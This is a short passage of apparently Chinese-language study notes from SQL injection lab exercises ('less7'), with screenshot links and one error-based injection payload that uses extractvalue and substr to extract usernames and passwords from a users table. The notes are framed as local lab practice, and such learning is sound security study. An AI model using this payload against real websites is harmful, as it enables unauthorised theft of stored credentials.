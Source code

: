 

![image-20220115102716033](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115102716033.png)

长度不够用：**substr**

```
?id=1" AND extractvalue(1,concat(0x7e,(select substr(group_concat(username,0x7e,password) ,10)from users),0x7e)) --+
```



# less7

【本地环境尝试】

![image-20220115102815887](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115102815887.png)


